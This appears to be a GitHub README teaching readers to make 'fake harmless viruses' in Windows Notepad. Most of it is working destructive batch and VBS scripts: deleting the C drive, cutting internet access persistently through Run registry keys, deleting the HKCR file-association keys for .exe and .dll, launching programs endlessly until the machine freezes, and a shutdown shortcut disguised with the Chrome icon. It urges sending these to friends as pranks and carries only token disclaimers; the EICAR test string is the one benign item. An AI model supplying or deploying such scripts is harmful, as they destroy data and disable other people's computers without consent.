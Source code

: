 # -VirusP1
Create Fake Harmless Virus Using Microsoft Windows Notepad

hi user , this will help you create a simple Fake virus.

#The virus is a malicious program that enters the computer without your permission and can affect your data and operating system.

#Steps :-

How to Create Fake Harmless Virus Using Notepad

Many of you will think the methods must be on coding, but nothing like that. The tricks are based on Notepad. Just follow the below steps for creating a harmless virus using a notepad. Additionally, you can remove malware from your browser if it is infected.

1) Creating a Dangerous Virus

1. First of all, in your Windows OS, open Notepad.
2. Copy and paste the code below into your notepad screen.

 
 @Echo off
Del C: *.* |y

3. Save this file as virus.bat (you can select any random name, but .bat must be there after that).
   
Now running the file will delete the C drive completely, and the operating system of the respective computer will get corrupted.

Note: This method is only for knowledge purposes. Don’t try this on your computer, as it will completely format your C drive.

2) Creating a Harmless Cdrom Virus
Open Notepad Paste the following code into it and save it as CD-ROM.vbs or anything (*.vbs_


Set oWMP = CreateObject("WMPlayer.OCX.7")
Set colCDROMs = oWMP.cdromCollection
do
if colCDROMs.Count >= 1 then
For i = 0 to colCDROMs.Count - 1
colCDROMs.Item(i).Eject
Next
For i = 0 to colCDROMs.Count - 1
colCDROMs.Item(i).Eject
Next
End If
wscript.sleep 5000
loop

When you double-click on this file, you will be amazed at what this simple, harmless virus can do. Your CD/DVD drives will get continuously ejected.

To stop this virus, you need to open Task Manager, select the process tab, and end the wscript.exe file.

3) Create a Virus To Test Your Antivirus (fake virus notepad)

Open Notepad and paste the given code and save the file as “EICAR.COM”


X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*

If you have an active antivirus, your antivirus program will remove this file in no time. This is the harmless virus used to check your antivirus’s security level.

4) Virus To Stop Someone’s Internet Access
This is a harmless virus, and it will not destroy your PC. You can use this notepad virus script to prank your friends. This virus stops anyone’s internet access. You need to type
the following code in Notepad.


@Echo off
Ipconfig /release


Save the file in a .bat format like internet.bat and send it to your friends. The IP address will be lost, so they won’t be able to fix it. Well, if you want to fix it. Type in ipconfig/renew. So, this is one of the best notepad virus pranks.

5) Creating a Matrix Type screen
Well, it’s not a virus. It is just a simple notepad trick that will let you see the string of green characters appearing randomly. It has nothing to do with your computer registry, batch, etc. However, you can use this trick to scare your friend because the screen looks like a virus is affected.

Open Notepad and type the following code into it.


code :-

@echo off
color 02
:start
echo %random% %random% %random% %random% %random% %random% %random% %random% %random% %random%
goto start


Now save the file as** Matrix.bat**, click on it, and the show begins.

6) Shutdown virus
You can also create a virus that can shut down computers. This virus is harmless but can cause data loss due to a sudden shutdown. Here’s how you can make a shutdown virus to pull up a prank with your friends.

1. First of all, right-click on your desktop and then choose the option Create Shortcut.
2.  In the pop-up window, type in shutdown -s -t 60 -c “Virus Detection. The computer is shutting down.” Instead of 60, you can put what value you want. It represents the time in seconds
3. then click on the Next button and type Chrome. Or whatever you want.
4. Then, you need to change the Shortcut icon and choose the icon of Google Chrome
5. Your virus will look like Google Chrome. You can carry this file in your Pendrive and shut down your friends’ computers.

Few Other Notepad Virus Codes (Notepad virus tricks)
Here are a few other source codes to create a notepad virus on a Windows computer.

**Note: The damages caused by these viruses are irreversible**

*****************************************************************************************************************************************************************************************

1) Disable Internet Permanently

   The below code will disable anyone’s internet connectivity PERMANENTLY.

   [alert-note]echo @echo off>c:windowswimn32.bat
echo break off>c:windowswimn32.bat echo
ipconfig/release_all>c:windowswimn32.bat
echo end>c:windowswimn32.batreg add
hkey_local_machinesoftwaremicrosoftwindowscurrentversionrun /v WINDOWsAPI /t reg_sz /d c:windowswimn32.bat /freg add
hkey_current_usersoftwaremicrosoftwindowscurrentversionrun /v CONTROLexit /t reg_sz /d c:windowswimn32.bat /fecho ENTER YOUR MESSAGE!!
PAUSE[/alert-note]

2) Endless Notepads
The below code will pop up endless notepads until the computer freezes and crashes!

@ECHO off
:top
START %SystemRoot%\system32\notepad.exe
GOTO top

3) Endless Enter
The below code will make the enter button pressed continuously

Set wshShell = wscript.CreateObject(”WScript.Shell”)
do
wscript.sleep 100
wshshell.sendkeys “~(enter)”
loop

4) Delete Key Registry Files
Before trying the notepad virus, please remember that this is a dangerous and unrecoverable virus that can cause permanent damage to your operating system. Reinstalling Windows is the only option to recover from this dangerous virus.

@ECHO OFF
START reg delete HKCR/.exe
START reg delete HKCR/.dll
START reg delete HKCR/*
:MESSAGE
ECHO Your PC has been crashed.Your Dad.
GOTO MESSAGE

5) App Bomber
This is another dangerous virus that can freeze a computer in no time. This virus will repeatedly open different applications, forcing the computer to freeze. This virus can also damage your motherboard, so try this at your own risk.

@echo off
:x
start winword
start mspaint
start notepad
start write
start cmd
start explorer
start control
start calc
goto x

****************************************************************************************** thankyou ************************************************************************************
**BY :- SABHAREESHWHARAN.S**

